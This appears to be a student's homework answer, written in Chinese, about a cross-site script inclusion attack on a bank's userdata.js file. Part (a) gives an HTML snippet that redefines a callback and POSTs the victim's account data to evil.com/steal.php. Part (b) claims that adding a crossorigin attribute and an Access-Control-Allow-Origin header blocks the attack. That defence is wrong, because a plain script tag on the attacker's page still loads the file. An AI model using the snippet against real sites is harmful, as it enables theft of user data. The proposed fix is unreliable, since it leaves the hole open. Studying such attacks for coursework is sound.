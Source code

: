 # T2
## (a)
`evil.com`的页面可以通过嵌入一个`<script>`标签，指向bank.com的`userdata.js`文件，并重新编写`displayData`函数来获取John Doe的数据。当John Doe登录`bank.com`后，访问`evil.com`，`evil.com`便会加载`bank.com/userdata.js`并执行`displayData`，将数据发送给`evil.com`

```html
<script>
function displayData(data) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://evil.com/steal.php");
    xhr.send(JSON.stringify(data));
}</script>
<script src="//bank.com/userdata.js"> </script>
```

## (b)
可以使用CORS来限制只有`bank.com`域名允许访问`userdata.js`文件，从而防止这种攻击。

将`accountInfo.html`的(*)行修改为：

```html
<script src="//bank.com/userdata.js" crossorigin="anonymous"> </script>
```

这样一来，浏览器将启用CORS。另外，服务器在`userdata.js`文件中添加一个响应头，指定`Access-Control-Allow-Origin`为`bank.com`。因此，只有来自`bank.com`的请求才能访问`userdata.js`文件，当`evil.com`试图访问`userdata.js`时会被浏览器拒绝。